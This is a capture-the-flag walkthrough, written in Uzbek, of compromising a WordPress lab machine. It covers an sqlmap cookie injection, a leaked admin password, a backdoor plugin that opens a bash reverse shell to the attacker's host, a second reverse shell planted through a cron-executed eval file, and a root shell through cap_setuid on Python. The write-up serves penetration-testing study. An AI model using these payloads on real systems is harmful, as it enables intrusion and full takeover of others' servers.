

# 🕵️ Machine Info

| IP Address | OS | Vulnerabilities |
| :--- | :--- | :--- |
| **10.15.0.49** | Linux | SQL Injection, RCE, Cron Job, Capabilities |

> **Qisqacha xulosa:**
> * **Sensitive Information Disclosure:** SQL Injection va himoyalanmagan subdomen orqali login va parollar fosh bo'lishi.
> * **Remote Code Execution (RCE):** WordPress admin paneli orqali zararli plagin yuklash va kod ijro etish imkoniyati.
> * **Insecure File Permissions:** `www-data` foydalanuvchisi o'zgartira oladigan faylning Cron Job orqali ishga tushirilishi (Privilege Escalation).
> * **Linux Capabilities Abuse:** `/opt/python3` binar faylidagi `cap_setuid` ruxsati orqali Root huquqini olish.

---

# 1-Bosqich: Razvedka (Reconnaissance)

Bizning birinchi ishimiz — nishonda qaysi portlar ochiqligini aniqlash. Buning uchun `nmap` dan foydalanamiz.

### 1.1. Portlarni skanerlash

Avvaliga “yengil” scan qilib asosiy ochiq portlarni bilib olamiz.

```bash
nmap 10.15.0.49
```


Endi ochiq portlarni “chuqurroq” scan qilamiz:

```bash
nmap -p 22,80,2222 -sC -sV -A 10.15.0.49
```



### 1.2. Virtual Hostlarni sozlash (/etc/hosts)

Nmap yoki brauzer orqali IP ga kirganimizda, sayt bizni `norc.labs` domeniga yo'naltiradi (redirect). Brauzerimiz bu nomni tushunishi uchun uni `/etc/hosts` fayliga qo'shishimiz shart.

```bash
sudo nano /etc/hosts
```

Fayl oxiriga quyidagi qatorni qo'shamiz (keyinchalik topiladigan subdomenlarni ham hoziroq qo'shib ketamiz):

```text
10.15.0.49  norc.labs oledockers.norc.labs admin.oledockers.norc.labs
```

---

# 2-Bosqich: Veb Enumeratsiya va Kirish (Web Exploitation)

### 2.1. SQL Injection orqali ma'lumot yig'ish

Sayt WordPress ekanligini bildik. Login sahifasida (`wp-login.php`) cookie bilan bog'liq SQL Injection zaifligi borligini aniqladik. Biz bu orqali foydalanuvchilar ro'yxatini tortib olamiz.

```bash
sqlmap --dbms=mysql -u "[http://norc.labs/wp-login.php](http://norc.labs/wp-login.php)" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump
```

Bu buyruq ma'lumotlar bazasidan foydalanuvchilar jadvalini (`wp_users`) ko'rsatib beradi. Natija chiqishi uchun biroz vaqt ketadi va quyidagi kabi natija chiqadi:


> **Muhim topilma:** Biz `admin` foydalanuvchisining email manzilini topdik: `admin@oledockers.norc.labs`. Bu bizga `oledockers` subdomeni borligini fosh qildi.

### 2.2. Maxfiy parolni topish

Endi yangi topilgan subdomenga kirib ko'ramiz. Brauzerda quyidagi manzilni oching: (Bu subdomen `/etc/hosts` fayliga qo’shilgan bo’lishi kerak.)

`http://oledockers.norc.labs`

Bu sahifada admin o'zi uchun qoldirgan "Eslatma" (Password Reminder) bor:

> Hi, this is just in case I forget my password -> **admin : wWZvgxRz3jMBQ ZN**

### 2.3. WordPress Dashboardga kirish

Topilgan paroldan foydalanib, asosiy saytning admin paneliga kiramiz.

Manzil: `http://norc.labs/ghost-admin`


---

# 3-Bosqich: Shell olish (Initial Access)

Biz tizimga kirish uchun o'zimizning "josus" kodimizni (Reverse Shell) yuklashimiz kerak. Buning eng oson yo'li — zararli Plagin (Plugin) yaratishdir.

### 3.1. Zararli plagin yaratish

Kali Linux terminalida quyidagi ishlarni bajaramiz:

`shell.php` faylini yaratamiz:

```bash
nano shell.php
```

Ichiga quyidagi kodni yozamiz (IP o'rniga o'z IP'mizni yozamiz!):

```php
<?php
/**
* Plugin Name: My Backdoor
* Version: 1.0
* Author: Hacker
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/4444 0>&1'");
?>
```

Uni ZIP arxivga aylantiramiz:

```bash
zip plugin.zip shell.php
```

### 3.2. Plaginni yuklash va Shell olish

O'z terminalimizda tinglovchini yoqamiz:

```bash
nc -lvnp 4444
```

WordPress menyusidan **Plugins -> Add New Plugin -> Upload Plugin** ga o'tamiz.
`plugin.zip` faylini tanlab **Install Now** ni bosamiz.
Install’ni bosib o’rnatganimizdan keyin **Activate Plugin** tugmasini bosishimiz bilan terminalimizda ulanish paydo bo'ladi!

---

# 4-Bosqich: Tizimda harakatlanish (Lateral Movement)

Hozir biz `www-data` (veb server) foydalanuvchisimiz. Hozirgi maqsadimiz — `kvzlx` foydalanuvchisiga o'tish.

### 4.1. Shellni barqarorlashtirish

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 4.2. Zaif Cron Jobni aniqlash

`kvzlx` foydalanuvchisining papkasini tekshirganimizda qiziq skript topdik:

```bash
ls -la /home/kvzlx/
cat /home/kvzlx/.cron_script.sh
```

Skript `/var/www/html/.wp-encrypted.txt` faylini o'qiydi, Base64 dan chiqaradi va `eval` orqali bajaradi. Biz `www-data` bo'lganimiz uchun o'sha matnli faylga yoza olamiz!

### 4.3. Ekspluatatsiya (www-data -> kvzlx)

Biz o'zimizning kodimizni Base64 ga o'girib, o'sha faylga yozamiz.

Yangi terminal ochib tinglovchi yoqamiz (Port 5555):

```bash
nc -lvnp 5555
```

Eski terminalda (www-data shellida) quyidagi buyruqni beramiz (IP ni o'zgartiramiz!):

```bash
echo "bash -i >& /dev/tcp/10.10.XX.XX/5555 0>&1" | base64 > /var/www/html/.wp-encrypted.txt
```

Bir daqiqa kutamiz. Cron job ishlaganida, bizning 5555-portimizdagi `kvzlx` foydalanuvchisi shell keladi.

---

# 5-Bosqich: Root huquqini olish (Privilege Escalation)

Endi eng so'nggi bosqich — Superuser (Root) bo'lish.

### 5.1. Capabilities tekshiruvi

Tizimda g'ayrioddiy huquqlar (Capabilities) berilgan fayllarni qidiramiz:

```bash
getcap -r / 2>/dev/null
```

Natijada: `/opt/python3 = cap_setuid+ep` chiqadi. Bu shuni anglatadiki, ushbu Python versiyasi o'zining UID raqamini o'zgartira oladi. Biz bundan foydalanib o'zimizni `root` (UID 0) qilib belgilaymiz.

### 5.2. Root Shell olish

Quyidagi Python kodini ishga tushiramiz:

```bash
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Buyruqdan so'ng `whoami` deb tekshiramiz. Javob: `root`. Tabriklaymiz! Mashina to'liq egallandi.

---

# Xulosa

Ushbu mashina orqali biz quyidagi muhim pentesting texnikalarini o'rgandik:

* **VHost Enumeration:** Yashirin subdomenlarni topish qanchalik muhimligi.
* **SQLi & Info Disclosure:** Ma'lumotlar bazasi orqali email va domenlarni aniqlash.
* **Malicious Plugin:** WordPress saytlarida shell olish usuli.
* **Insecure Cron Job:** Ruxsatnomalar noto'g'ri sozlangan avtomatlashtirilgan skriptlardan foydalanish.
* **Capabilities Exploitation:** Linux `setuid` imkoniyatlari orqali huquqni oshirish.